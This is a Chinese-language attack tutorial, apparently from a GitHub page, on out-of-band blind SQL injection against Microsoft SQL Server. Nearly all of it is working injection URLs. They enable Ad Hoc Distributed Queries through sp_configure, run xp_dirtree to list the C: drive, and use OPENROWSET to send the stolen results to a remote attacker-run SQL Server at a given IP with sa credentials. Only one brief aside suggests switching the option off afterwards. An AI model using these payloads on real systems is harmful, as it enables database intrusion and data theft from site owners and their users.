



适用于盲注入，页面不返回信息，使用这种注入方法，需要一台带有sqlserver的机器。原理就是把当前数据转发到远程的sqlserver上。

1. 启用Ad Hoc Distributed Queries：

;exec sp_configure 'show advanced options',1 reconfigure
;exec sp_configure 'Ad Hoc Distributed Queries',1 reconfigure

2. 为了安全使用完成后，关闭Ad Hoc Distributed Queries：

;exec sp_configure 'Ad Hoc Distributed Queries',0 reconfigure
;exec sp_configure 'show advanced options',0 reconfigure

**1、开启扩展**

```http
http://www.demo1.com/index.aspx?id=1;exec sp_configure 'show advanced options',1 reconfigure;exec sp_configure 'Ad Hoc Distributed Queries',1 reconfigure
```

本地建立mydb库与临时表(与目标一致)

```sql
create table ##version (VERSION varchar(500))
```

**2、查询系统信息**

```http
http://www.demo1.com/index.aspx?id=1;insert into OPENROWSET('SQLOLEDB', 'server=192.168.31.114;uid=sa;pwd=123456', 'select * from %23%23version' ) select DB_NAME()
```

 

执行上面语句之后 再来查询远程sqlserver上的表

```sql
select * from ##version
```

 

 

**3、两边创建临时表**

```sql
create table ##moon( dir ntext, num int )
```

```http
http://www.demo1.com/index.aspx?id=1;create table %23%23moon( dir ntext, num int )
```

**4、查询路径**

向nonamed表插入c盘下路径的数据

```http
http://www.demo1.com/index.aspx?id=1;insert %23%23moon execute master..xp_dirtree 'c:/',1
```

这里就是把数据转发到远程192.168.31.114 sqlserver上

```http
http://www.demo1.com/index.aspx?id=1;insert into OPENROWSET('SQLOLEDB', 'server=192.168.31.114;uid=sa;pwd=123456', 'select * from %23%23moon' ) select * from %23%23moon
```

在远程sqlserver执行这个命令 就可以获取 数据

```sql
select * from ##moon
```

 

 